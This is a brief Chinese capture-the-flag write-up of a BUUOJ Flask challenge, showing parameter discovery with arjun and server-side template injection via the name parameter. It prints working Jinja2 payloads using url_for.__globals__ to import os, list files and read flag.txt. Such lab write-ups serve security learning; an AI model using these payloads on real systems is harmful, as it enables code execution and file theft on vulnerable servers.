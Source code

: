 ![](<./img/Pasted image 20230118100150.png>)

---

![](<./img/Pasted image 20230118100135.png>)

突出一个爆破.jpg

除了题目提示`flask`之外就没有其他信息了

尝试`dirsearch`目录爆破无果，发现一个爆破`query`的工具`arjun`

```shell
arjun -u http://xxx.node4.buuoj.cn:81/ -c 100 -d 0.1
```

![](<./img/Pasted image 20230118103413.png>)

```
/?name=1
```

![](<./img/Pasted image 20230118103529.png>)

```
/?name={{7*7}}
```

![](<./img/Pasted image 20230118103559.png>)

利用`url_for`函数注入

```
/?name={{url_for.__globals__['__builtins__']['__import__']('os').listdir('.')}}
```

```python
['flag.txt', 'application.py', 'requirements.txt', 'static', 'templates']
```

```
/?name={{url_for.__globals__['__builtins__']['open']('flag.txt').read()}}
```

![](<./img/Pasted image 20230118104246.png>)

#Web #python #flask #SSTI #urlfor #arjun #参数爆破